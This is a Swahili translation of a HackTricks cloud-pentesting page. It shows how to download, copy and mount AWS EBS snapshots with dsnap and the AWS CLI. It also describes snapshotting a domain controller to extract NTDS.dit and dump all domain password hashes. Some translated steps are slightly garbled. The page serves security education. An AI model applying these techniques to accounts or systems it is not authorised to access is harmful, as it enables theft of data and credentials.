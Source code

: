# AWS - Ufunuo wa Picha ya EBS

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Kuangalia picha ya eneo kwa kifaa cha kuhifadhi kwa kifaa cha EBS
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Tafadhali jua** kwamba `dsnap` haitakuruhusu kupakua picha za nakala za umma. Ili kuzunguka hili, unaweza kufanya nakala ya picha ya nakala kwenye akaunti yako binafsi, na upakue hiyo:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Kwa habari zaidi kuhusu hii mbinu angalia utafiti wa awali katika [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Unaweza kufanya hivi na Pacu kutumia moduli [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Kuchunguza snapshot katika AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
**Kuimba kwenye EC2 VM chini ya udhibiti wako** (inapaswa kuwa katika eneo moja na nakala ya chelezo):

Hatua ya 1: Kiasi kipya cha ukubwa na aina unayopendelea kinapaswa kuundwa kwa kwenda kwa EC2 –> Volumes.

Ili kutekeleza hatua hii, fuata maagizo haya:

* Unda kiasi cha EBS cha kuambatisha kwa kifaa cha EC2.
* Hakikisha kiasi cha EBS na kifaa viko katika eneo moja.

Hatua ya 2: Chagua chaguo la "ambatisha kiasi" kwa kubonyeza kulia kwenye kiasi kilichoundwa.

Hatua ya 3: Chagua kifaa kutoka kwenye sanduku la maandishi ya kifaa.

Ili kutekeleza hatua hii, tumia amri ifuatayo:

* Ambatisha kiasi cha EBS.

Hatua ya 4: Ingia kwenye kifaa cha EC2 na orodhesha diski zilizopo kwa kutumia amri `lsblk`.

Hatua ya 5: Angalia ikiwa kiasi kina data yoyote kwa kutumia amri `sudo file -s /dev/xvdf`.

Ikiwa matokeo ya amri hapo juu yanaonyesha "/dev/xvdf: data", inamaanisha kiasi hicho hakina data.

Hatua ya 6: Fomati kiasi kwa mfumo wa faili wa ext4 kwa kutumia amri `sudo mkfs -t ext4 /dev/xvdf`. Kwa kuongezea, unaweza pia kutumia muundo wa xfs kwa kutumia amri `sudo mkfs -t xfs /dev/xvdf`. Tafadhali kumbuka unapaswa kutumia ext4 au xfs.

Hatua ya 7: Unda saraka ya uchaguzi wako kuimba kiasi kipya cha ext4. Kwa mfano, unaweza kutumia jina "newvolume".

Ili kutekeleza hatua hii, tumia amri `sudo mkdir /newvolume`.

Hatua ya 8: Imba kiasi kwenye saraka ya "newvolume" kwa kutumia amri `sudo mount /dev/xvdf /newvolume/`.

Hatua ya 9: Badilisha saraka kwenda kwenye saraka ya "newvolume" na angalia nafasi ya diski ili kuthibitisha uimbo wa kiasi.

Ili kutekeleza hatua hii, tumia amri zifuatazo:

* Badilisha saraka kwenda `/newvolume`.
* Angalia nafasi ya diski kwa kutumia amri `df -h .`. Matokeo ya amri hii yanapaswa kuonyesha nafasi ya bure katika saraka ya "newvolume".

Unaweza kufanya hivi na Pacu kwa kutumia moduli `ebs__explore_snapshots`.

## Kuchunguza chelezo katika AWS (kutumia cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
## Nakala ya Kivuli

Mtumiaji yeyote wa AWS mwenye ruhusa ya **`EC2:CreateSnapshot`** anaweza kuiba hash za watumiaji wote wa kikoa kwa kuunda **nakala ya seva ya Kudhibiti Kikoa** kuiunganisha kwa kifaa wanachodhibiti na **kutoa faili za NTDS.dit na SYSTEM** ya usajili kwa matumizi na mradi wa secretsdump wa Impacket.

Unaweza kutumia chombo hiki kiotomatiki shambulio: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) au unaweza kutumia moja ya njia za awali baada ya kuunda nakala.

## Marejeo

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
